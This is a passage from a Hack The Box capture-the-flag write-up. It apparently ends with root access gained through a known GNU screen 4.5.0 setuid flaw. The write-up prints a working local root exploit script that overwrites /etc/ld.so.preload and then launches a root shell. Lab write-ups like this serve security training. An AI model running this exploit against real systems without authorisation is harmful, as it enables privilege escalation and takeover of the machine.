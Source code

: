 
{% include image.html image_alt="3f44591b.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/3f44591b.png" %}


The `user.txt` is found in `drno`'s home directory.


{% include image.html image_alt="d3064752.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/d3064752.png" %}


## Privilege Escalation

Privilege escalation is pretty straight forward from here.


{% include image.html image_alt="2dc3462d.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/2dc3462d.png" %}


Simply follow the steps outlined in EDB-ID [41154](https://www.exploit-db.com/exploits/41154). As there's no `gcc` in the remote box, remove the lines that attempt to write and compile source codes. Instead, compile them in your attacking machine and `scp` them to `/tmp` in the remote box.

<div class="filename"><span>screenroot.sh</span></div>

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
export PATH=/usr/local/share/screen:$PATH
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```


{% include image.html image_alt="295c2be7.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/295c2be7.png" %}


Heck. I don't even need to pwn the `drno` account. Anyway, getting the `root.txt` with a `root` shell is trivial.


{% include image.html image_alt="f850e86c.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/f850e86c.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/171
[2]: https://www.hackthebox.eu/home/users/profile/6983
[3]: https://www.hackthebox.eu/
